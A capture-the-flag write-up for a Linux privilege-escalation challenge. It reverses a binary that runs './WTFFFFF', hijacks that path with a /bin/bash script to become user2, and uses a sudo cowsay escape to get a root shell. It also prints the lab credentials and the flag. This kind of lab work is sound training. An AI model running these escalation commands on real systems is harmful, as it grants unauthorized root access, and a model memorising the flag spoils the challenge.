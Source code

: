 ![](./assets/images/logo.webp)



        
            
# Undercover#1



## Challenge Author(s):
Log_s

## Description:
You have been recruited by the CEO of Hero & Co. to test their security. But before handing you out the assignement, the asked you have to prove yourself, and escalate your privileges on this test system all the way to root.

The base credentials are:

`user1:password123`

## Objective:
Privilege escalation to reach user2 and then get the flag.


## Flag:
`Hero{B4ck_2_b4s1cs}`
# 

# Solution

In `/home` there is an executable called `hmmm`. You can download it and then reversing it using *ghidra*.

This is the `main` function:

    undefined8 main(void)

    {
    __uid_t __euid;
    __uid_t __ruid;
    
    puts("Not sure why, but I\'m gonna set my ruid to my uid.");
    __euid = geteuid();
    __ruid = geteuid();
    setreuid(__ruid,__euid);
    puts("Not sure why, but I\'m gonna run the \'WTFFFFF\' program right now.");
    system("./WTFFFFF");
    return 0;
    }

`user1` is able to run the binary, but is owned by `user2`. 

Since the `WTFFFFF` binary does not exist, you can create it in an intelligent way:

    echo "/bin/bash" > WTFFFFF
    chmod +x WTFFFFF

Now, you're `user2`. 

Using `sudo -l` command, you can see user2's sudo rigths: 

    Matching Defaults entries for user2 on 30b4cc252fc8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User user2 may run the following commands on 30b4cc252fc8:
        (root) NOPASSWD: /usr/games/cowsay

Now, to get a shell as `root` you can exploit this executable, according to https://gtfobins.github.io/gtfobins/cowsay/ using these commands:

    TF=$(mktemp)
    echo 'exec "/bin/sh";' >$TF
    sudo /usr/games/cowsay -f $TF x

Read the flag!